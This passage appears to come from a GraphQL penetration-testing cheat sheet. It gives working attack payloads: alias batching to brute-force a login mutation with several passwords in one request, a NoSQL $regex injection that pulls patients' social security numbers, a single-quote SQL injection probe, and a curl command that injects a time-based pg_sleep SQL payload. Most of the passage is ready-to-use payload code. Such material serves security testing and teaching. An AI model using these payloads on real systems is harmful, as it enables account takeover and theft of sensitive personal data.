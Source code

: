 ```json
{
    "query": "query { qname: Query { field1 } qname1: Query { field1 } }"
}
```

Send the same mutation several times using aliases

```js
mutation {
  login(pass: 1111, username: "bob")
  second: login(pass: 2222, username: "bob")
  third: login(pass: 3333, username: "bob")
  fourth: login(pass: 4444, username: "bob")
}
```


## Injections

> SQL and NoSQL Injections are still possible since GraphQL is just a layer between the client and the database.


### NOSQL injection

Use `$regex`, `$ne` from []() inside a `search` parameter.

```js
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```


### SQL injection

Send a single quote `'` inside a graphql parameter to trigger the SQL injection

```js
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```

Simple SQL injection inside a graphql field.

```powershell
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```
